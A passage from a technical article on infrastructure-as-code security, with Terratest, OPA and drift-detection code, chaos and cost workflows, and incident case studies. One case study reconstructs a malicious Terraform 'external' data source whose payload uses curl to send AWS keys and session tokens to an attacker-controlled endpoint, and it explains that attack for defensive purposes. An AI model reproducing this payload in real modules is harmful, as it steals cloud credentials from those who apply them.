func TestWebServerModule(t *testing.T) {
    t.Parallel()   // run integration tests in parallel to reduce wall-clock time

    opts := &terraform.Options{
        TerraformDir: "../modules/webserver",
        Vars: map[string]interface{}{
            "instance_type": "t3.micro",
            "environment":   fmt.Sprintf("test-%d", time.Now().UnixNano()),
            "vpc_id":        "vpc-test-12345",
        },
        // Retry on transient AWS API errors
        RetryableTerraformErrors: map[string]string{
            ".*RequestError.*": "Transient AWS API error; retrying",
        },
        MaxRetries:         3,
        TimeBetweenRetries: 10 * time.Second,
    }

    // Always tear down resources, even on test failure
    defer terraform.Destroy(t, opts)

    terraform.InitAndApply(t, opts)

    instanceID := terraform.Output(t, opts, "instance_id")
    albDNS     := terraform.Output(t, opts, "alb_dns_name")

    // Verify instance uses IMDSv2
    instanceAttrs := aws.GetEc2InstanceAttributesByID(t, instanceID, "us-east-1")
    assert.Equal(t, "required", instanceAttrs.MetadataOptions.HttpTokens,
        "Instance must require IMDSv2 tokens")

    // Verify no public IP assigned
    assert.Empty(t, instanceAttrs.PublicIpAddress,
        "Instance must not have a public IP address")

    // Verify EBS volumes are encrypted
    for _, mapping := range instanceAttrs.BlockDeviceMappings {
        volumeAttrs := aws.GetEbsVolumeAttributesByID(t, *mapping.Ebs.VolumeId, "us-east-1")
        assert.True(t, volumeAttrs.Encrypted,
            "EBS volume %s must be encrypted", *mapping.Ebs.VolumeId)
    }

    // Verify ALB returns 200 OK with retry (ALB health checks take time)
    url := fmt.Sprintf("https://%s/healthz", albDNS)
    maxRetries      := 30
    retryInterval   := 10 * time.Second

    retry.DoWithRetry(t, "wait for ALB health check", maxRetries, retryInterval, func() (string, error) {
        resp, err := http.Get(url) //nolint:gosec // test code, URL is controlled
        if err != nil {
            return "", err
        }
        defer resp.Body.Close()
        if resp.StatusCode != 200 {
            return "", fmt.Errorf("expected 200, got %d", resp.StatusCode)
        }
        return "healthy", nil
    })

    // Verify security group has no ingress from 0.0.0.0/0
    sgID := terraform.Output(t, opts, "security_group_id")
    sg   := aws.GetSecurityGroupByID(t, sgID, "us-east-1")
    for _, perm := range sg.IpPermissions {
        for _, r := range perm.IpRanges {
            require.NotEqual(t, "0.0.0.0/0", r.CidrIp,
                "Security group must not allow inbound from 0.0.0.0/0")
        }
    }
}
```

**OPA/Rego unit testing** uses OPA's built-in test runner (`opa test`) to verify policy logic against mock inputs before deploying policies to clusters:

```rego
# policies/kubernetes/pod-security_test.rego
package kubernetes.admission_test

import data.kubernetes.admission

# --- Test: pod with no memory limit is denied ---

test_deny_missing_memory_limit if {
    result := admission.deny with input as {
        "request": {
            "kind": {"kind": "Pod"},
            "object": {
                "metadata": {"name": "test-pod"},
                "spec": {
                    "containers": [{
                        "name": "app",
                        "image": "nginx:latest",
                        "resources": {
                            "limits": {}   # memory limit absent
                        },
                        "securityContext": {
                            "readOnlyRootFilesystem": true,
                            "allowPrivilegeEscalation": false
                        }
                    }]
                },
                "securityContext": {"runAsNonRoot": true}
            }
        }
    }
    count(result) == 1
    # Verify the denial message contains the container name
    some msg in result
    contains(msg, "app")
    contains(msg, "memory limit")
}

# --- Test: compliant pod is not denied ---

test_allow_compliant_pod if {
    result := admission.deny with input as {
        "request": {
            "kind": {"kind": "Pod"},
            "object": {
                "metadata": {"name": "good-pod"},
                "spec": {
                    "containers": [{
                        "name": "app",
                        "image": "nginx:1.25-alpine",
                        "resources": {
                            "limits": {
                                "memory": "128Mi",
                                "cpu": "500m"
                            }
                        },
                        "securityContext": {
                            "readOnlyRootFilesystem":   true,
                            "allowPrivilegeEscalation": false,
                            "privileged":               false
                        }
                    }]
                },
                "securityContext": {"runAsNonRoot": true}
            }
        }
    }
    count(result) == 0
}

# --- Test: LoadBalancer service without internal annotation is denied ---

test_deny_external_loadbalancer if {
    result := admission.deny with input as {
        "request": {
            "kind": {"kind": "Service"},
            "object": {
                "metadata": {
                    "name": "public-svc",
                    "annotations": {}   # missing internal annotation
                },
                "spec": {"type": "LoadBalancer"}
            }
        }
    }
    count(result) == 1
}
```

Running `opa test policies/` with `--coverage` reports which branches of policy logic are covered by tests, ensuring policy rules are not dead code.

**Kubernetes admission webhook validation testing** requires a running cluster. Tools like `kyverno` and `conftest` can validate manifests against policies locally without a cluster. `conftest` uses OPA policies to validate arbitrary configuration files:

```bash
# Validate all Kubernetes manifests in the k8s/ directory against OPA policies
conftest test k8s/**/*.yaml \
  --policy policies/kubernetes/ \
  --namespace kubernetes.admission \
  --all-namespaces \
  --output github
```

**Drift detection** is implemented as a scheduled job that runs `terraform plan -detailed-exitcode` and alerts if the exit code is 2 (changes detected). Exit code 0 means no changes (no drift); exit code 2 means changes would be made (drift detected); exit code 1 means an error occurred.

```python
#!/usr/bin/env python3
# drift_detector.py — scheduled drift detection job
# Run as: python drift_detector.py --workspace prod/webserver

import argparse
import json
import subprocess
import sys
import boto3

def run_terraform_plan(workspace_dir: str) -> tuple[int, str]:
    """Run terraform plan and return exit code and plan JSON."""
    result = subprocess.run(
        ["terraform", "plan", "-detailed-exitcode", "-json", "-out=/tmp/plan.tfplan"],
        cwd=workspace_dir,
        capture_output=True,
        text=True,
        timeout=600,
    )
    return result.returncode, result.stdout

def parse_plan_changes(plan_json_lines: str) -> list[dict]:
    """Extract resource change messages from streaming plan JSON."""
    changes = []
    for line in plan_json_lines.splitlines():
        try:
            event = json.loads(line)
        except json.JSONDecodeError:
            continue
        if event.get("type") == "resource_drift":
            changes.append(event)
    return changes

def send_alert(workspace: str, drift_changes: list[dict], sns_topic_arn: str):
    """Publish drift alert to SNS."""
    sns = boto3.client("sns", region_name="us-east-1")
    message = {
        "workspace": workspace,
        "drift_count": len(drift_changes),
        "drifted_resources": [
            {
                "address": c.get("change", {}).get("resource", {}).get("addr"),
                "change": c.get("change", {}).get("action"),
            }
            for c in drift_changes
        ],
    }
    sns.publish(
        TopicArn=sns_topic_arn,
        Subject=f"[IaC Drift Alert] {workspace}: {len(drift_changes)} resource(s) drifted",
        Message=json.dumps(message, indent=2),
    )

def main():
    parser = argparse.ArgumentParser(description="Terraform drift detector")
    parser.add_argument("--workspace-dir", required=True)
    parser.add_argument("--sns-topic-arn", required=True)
    args = parser.parse_args()

    exit_code, plan_output = run_terraform_plan(args.workspace_dir)

    if exit_code == 0:
        print("[OK] No drift detected.")
        sys.exit(0)
    elif exit_code == 1:
        print("[ERROR] Terraform plan failed:", plan_output, file=sys.stderr)
        sys.exit(1)
    elif exit_code == 2:
        drift_changes = parse_plan_changes(plan_output)
        print(f"[DRIFT] {len(drift_changes)} resource(s) drifted.")
        send_alert(args.workspace_dir, drift_changes, args.sns_topic_arn)
        # Exit with non-zero to signal drift to the calling process / monitoring system
        sys.exit(2)

if __name__ == "__main__":
    main()
```

**Chaos engineering** for infrastructure validates that IaC-defined recovery mechanisms function correctly. Chaos Mesh provides declarative chaos experiment definitions as Kubernetes CRDs:

```yaml
# chaos/node-failure-experiment.yaml
apiVersion: chaos-mesh.org/v1alpha1
kind: Workflow
metadata:
  name: infrastructure-resilience-test
  namespace: chaos-testing
spec:
  entry: pod-and-network-chaos
  templates:
    - name: pod-and-network-chaos
      templateType: Serial
      deadline: 30m
      children:
        - pod-kill-phase
        - network-partition-phase

    - name: pod-kill-phase
      templateType: Task
      task:
        container:
          name: chaos
          image: chaos-mesh/chaos-mesh:latest
          command: ["/bin/sh"]
          args: ["-c", "sleep 300"]  # hold for 5 minutes
        embeddedTemplates:
          - name: pod-kill
            templateType: PodChaos
            podChaos:
              action: pod-kill
              mode: fixed-percent
              value: "30"           # kill 30% of pods
              selector:
                namespaces: [production]
                labelSelectors:
                  "app.kubernetes.io/name": webapp
              gracePeriod: 0

    - name: network-partition-phase
      templateType: NetworkChaos
      networkChaos:
        action: partition
        mode: one
        selector:
          namespaces: [production]
          labelSelectors:
            "app.kubernetes.io/name": webapp
        direction: both
        duration: "2m"
```

Chaos experiments should be paired with automated assertions that verify the system recovers within the SLO-defined time window. If the experiment exposes that recovery takes longer than the SLO allows, the IaC configuration (pod disruption budgets, topology spread constraints, liveness probe parameters) must be tuned.

**Cost estimation integration** using Infracost prevents budget overruns from IaC changes. Infracost parses Terraform plan JSON and estimates monthly cloud cost using published pricing data. Integrating Infracost into the PR review process surfaces cost implications before merge:

```yaml
# .github/workflows/infracost.yml
name: Infracost
on:
  pull_request:
    paths: ["infra/**"]

permissions:
  contents: read
  pull-requests: write

jobs:
  infracost:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Setup Infracost
        uses: infracost/actions/setup@v3
        with:
          api-key: ${{ secrets.INFRACOST_API_KEY }}

      - name: Generate Infracost cost estimate
        run: |
          infracost breakdown \
            --path infra/ \
            --format json \
            --out-file /tmp/infracost.json
          infracost comment github \
            --path /tmp/infracost.json \
            --repo $GITHUB_REPOSITORY \
            --pull-request ${{ github.event.pull_request.number }} \
            --github-token ${{ secrets.GITHUB_TOKEN }} \
            --behavior update
```

---

## 6. Real-World Case Studies & Forensics

### Case Study: GitLab Terraform State Artifact Exposure (2021)

GitLab's CI/CD system inadvertently made Terraform state files accessible via job artifacts. The root cause was a CI pipeline configuration that executed `terraform plan` and uploaded the entire working directory—including the generated state file and `.terraform/` directory—as a job artifact with public read permissions. Because GitLab's default artifact retention policy was generous (30 days), the files remained accessible for weeks after each pipeline run.

Terraform's `sensitive = true` variable attribute prevents secret values from appearing in `terraform plan` textual output, but this redaction does not apply to the state file (`.tfstate`). The state file stores all resource attribute values regardless of sensitivity marking because the orchestration engine needs them to compute accurate diffs on subsequent runs. The state files therefore contained database connection strings, IAM access key IDs (not secrets themselves, but identifiers useful for targeted attacks), and DNS names for internal services.

The forensic impact: any authenticated GitLab user with read access to the CI project could enumerate all running cloud resources, internal network topology, and service-to-service authentication metadata. This amounted to a full reconnaissance capability without touching any cloud API.

The remediation involved multiple layers: rotating all credentials that appeared in state files, retroactively deleting affected artifacts via GitLab's API, restricting artifact visibility to pipeline participants only, adding `.terraform/` and `*.tfstate*` to the CI artifact exclusion list, enabling server-side encryption for state in the remote backend, and deploying automated credential scanning (`git-secrets`, TruffleHog) as a CI pre-stage that blocks artifact upload if secrets are detected. GitLab subsequently added template guidance for secure Terraform CI configurations in their documentation.

The architectural lesson: Terraform state must be treated as a secret store, stored exclusively in a remote backend with encryption at rest, and never written to the local filesystem in a CI/CD environment. The `.terraform.lock.hcl` file (which records provider version hashes) is safe to commit; the `.tfstate` file never is.

### Case Study: HashiCorp Terraform Cloud State Lock Cascade (2023)

A multi-hour Terraform Cloud outage was triggered by a cascading state locking failure. The sequence: (1) a long-running `terraform apply` for a large infrastructure stack held a state lock for over 90 minutes due to slow cloud provider API responses. (2) Twelve subsequent `terraform apply` operations against the same workspace queued waiting for the lock. (3) Each queued operation maintained a persistent HTTP connection to Terraform Cloud's API server. (4) The API server's connection pool became exhausted due to these long-lived idle connections. (5) New connections from unrelated workspaces were rejected, causing cascading failures across all workspaces. (6) The lock holding operation's HTTP connection was dropped, but Terraform Cloud's lock release mechanism required the same HTTP session to issue the release, which had already timed out. (7) Lock was now held by an orphaned session with no mechanism for automatic release.

The architectural failure was the absence of a *lock lease TTL*. In distributed systems, locks must carry a TTL that causes automatic expiry if the lock holder fails to renew it—the same principle as Kubernetes lease objects or Zookeeper ephemeral nodes. Terraform Cloud's lock implementation used a database row with no TTL, relying solely on the client to release the lock via API call. When the client connection was severed, the lock became permanent until manual administrative intervention.

The resolution required a HashiCorp engineer to manually delete the lock record from the database. After the incident, Terraform Cloud deployed lock TTL enforcement (maximum 2 hours for any lock), circuit breakers that reject new lock acquisition attempts when queue depth exceeds a threshold, and an automatic lock recovery process that releases locks held by sessions that have not issued heartbeats for 10 minutes.

The engineering lesson transcends Terraform: any distributed lock must carry a lease TTL. Infinite lock hold times are incompatible with reliable distributed systems. The recovery path from a lost lock holder must be automatic and not require manual database intervention.

### Case Study: Kubernetes Operator Reconciliation Loop DoS via API Rate Limiting (2022)

A custom Kubernetes operator managing cloud database instances created a denial-of-service condition against a shared cloud provider API. The event sequence: (1) Cloud provider rolled out an API change that caused all database describe calls to return HTTP 429 (Too Many Requests) for approximately 20 minutes. (2) The operator's error handling code contained `return ctrl.Result{Requeue: true}, nil` for all non-nil errors, which requeues with *zero delay*. (3) The `controller-runtime` workqueue's rate limiter was not configured, defaulting to immediate requeue for items added via `Requeue: true`. (4) The operator began making thousands of describe API calls per second for each of several hundred managed database instances. (5) The 429 responses caused the rate limiter to trigger more frequently, but the operator's loop overwhelmed the cloud provider's rate limiter for the entire API account, affecting all users of the account including production workloads.

The root cause was `return ctrl.Result{Requeue: true}` instead of `return ctrl.Result{RequeueAfter: backoffDuration}`. The `controller-runtime` framework's `ctrl.Result{Requeue: true}` path uses the workqueue's `Add()` method, which does not apply the per-item rate limiter. The correct pattern for error backoff is to either return a non-nil error (which triggers the workqueue's built-in exponential backoff via `AddRateLimited()`) or to return `ctrl.Result{RequeueAfter: duration}` with an explicitly computed backoff duration.

The remediation deployed a fixed operator binary with the following changes: rate limit errors trigger `return ctrl.Result{RequeueAfter: 60 * time.Second}, nil` with jitter; the `MaxConcurrentReconciles` controller option was set to 5 to bound parallelism; Kubernetes Events are emitted for rate limit conditions so they appear in `kubectl describe`; a Prometheus counter tracks rate limit events for alerting.

The architectural lesson: operator authors must understand the semantics of `ctrl.Result{Requeue: true}` versus `ctrl.Result{RequeueAfter: duration}` versus `return error`. Only the error path applies the workqueue's built-in exponential backoff. The other two paths are unthrottled unless explicit duration is provided.

### Case Study: Terraform Module Supply Chain Exfiltration (2024)

A popular Terraform module for provisioning AWS networking components was compromised when an attacker gained access to the original author's GitHub account via a phishing attack that bypassed TOTP 2FA using a real-time session hijacking technique (adversary-in-the-middle proxy). The attacker published version `4.2.1` of the module containing an `external` data source block:

```hcl
# Obfuscated malicious code (reconstructed from incident report)
data "external" "init" {
  program = ["bash", "-c", base64decode("
    # base64 of: curl -s -X POST https://[attacker-controlled].xyz/collect \
    # -d "{\"ak\":\"$(printenv AWS_ACCESS_KEY_ID)\",\
    # \"sk\":\"$(printenv AWS_SECRET_ACCESS_KEY)\",\
    # \"st\":\"$(printenv AWS_SESSION_TOKEN)\",\
    # \"h\":\"$(hostname)\"}" >/dev/null 2>&1; echo '{}'
  ")]
}
```

The `external` data source executes the program and captures its stdout as a JSON map. The malicious script transmitted environment variable contents (including AWS credentials injected by CI/CD OIDC federation) to an attacker-controlled HTTPS endpoint, then printed `{}` to satisfy the data source's JSON output requirement. The module continued to function correctly in all other respects.

Detection occurred 72 hours after publication, when a security engineer auditing a module update noticed the `external` data source that was not present in the previous version and decoded the base64 argument. By this time, the module had been downloaded approximately 1,400 times. Organizations using short-lived OIDC credentials had their credentials expire naturally within hours; organizations using long-lived stored credentials in CI/CD environment variables required emergency rotation.

The Terraform Registry's response: immediate removal of version `4.2.1`, publication of a security advisory, and email notification to organizations that had downloaded the compromised version. The registry does not provide a mechanism to prevent users from having already applied the malicious code.

Post-incident analysis produced the following hardening recommendations:

1. **Prohibit `external` data sources in module code review policy**: external data sources executing shell scripts are a persistent supply chain risk. Legitimate use cases are rare and should require explicit security review approval.

2. **Network egress control for `terraform apply`**: run Terraform pipelines in network-restricted environments that log all outbound connections. Unexpected connections to unknown endpoints during apply are a high-fidelity indicator of compromise.

3. **Private module registry with mandatory review**: mirror all public modules to an internal registry. Version updates require explicit review before being made available internally. The 72-hour window between publication and detection would have been a non-event if no internal user could reference the new version without an approved review.

4. **Module signing**: while the Terraform Registry does not currently enforce artifact signing universally, `cosign` can be used to sign module archives stored in OCI registries. Using Terraform's OCI registry support with signature verification closes the unsigned artifact gap.

5. **Behavioral monitoring during apply**: instrument Terraform pipelines with eBPF-based syscall monitoring (using tools like Falco or Tetragon) to detect unexpected process executions or network connections spawned by provider or external data source processes.



---

## 7. Synthesis: Security Architecture of a Production IaC System

Assembling the patterns from previous sections, a production-grade IaC security architecture implements defense-in-depth across six distinct enforcement layers:



No single layer is sufficient. The case studies demonstrate that every layer has been individually bypassed in real incidents. The GitLab state exposure bypassed layer 6 controls. The supply chain attack bypassed layer 1 and 2 controls. The operator DoS bypassed layer 5 controls. The strength of this architecture lies in the product of its layers: an attacker who bypasses one layer still faces five others.

The invariants that hold across all layers:
- **No plaintext secrets in Git**, ever, in any branch, at any point in history.
- **No long-lived credentials** in CI/CD systems; OIDC federation only.
- **No manual apply operations** outside the GitOps pipeline; all infrastructure changes are traceable to a Git commit.
- **State is encrypted at rest** and access to the state backend is logged and audited.
- **Policy-as-Code is evaluated at plan time** (before apply) and **audit-scanned at runtime** (against running resources). Point-in-time-only enforcement is insufficient.
- **Module versions are pinned** in `.terraform.lock.hcl` and all external modules are mirrored to a private registry with mandatory review before version upgrades.
